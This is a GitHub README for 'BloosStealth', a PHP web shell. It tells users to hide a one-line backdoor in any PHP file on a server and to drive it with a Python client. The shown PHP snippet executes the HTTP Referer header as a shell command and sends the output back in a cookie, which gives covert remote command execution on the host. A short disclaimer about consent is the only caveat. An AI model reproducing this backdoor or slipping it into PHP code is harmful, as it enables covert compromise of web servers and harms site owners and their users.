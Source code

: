 # BlooStealth
Plant it in any PHP file. Totally not *sus*

## Installation

```bash
$ sudo apt-get install python3-pip
$ pip3 install requests
$ sudo apt-get install python3-urllib3
$ git clone https://github.com/bloos3rpent/bloostealth && cd bloostealth
```

## Disclaimer
Only works if `shell_exec()` function isn't disabled

## Usage

Upload `ninja.php` in the server OR insert the ff. php code anywhere in a PHP file.

```php
<? if(isset($_SERVER['HTTP_REFERER'])){$_=$_SERVER['HTTP_REFERER'];$b = `$_`;session_destroy();setcookie("x", $b, time()+30*24*60*60);} ?>
```
and then

```bash
python3 ninja.py
```

Now we can access it by inputting the bloostealth URL in the prompt

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Waiver
I am NOT responsible to any misusage of this. Only do this with consent

## License
[Bloos3rpent](https://github.com/bloos3rpent)
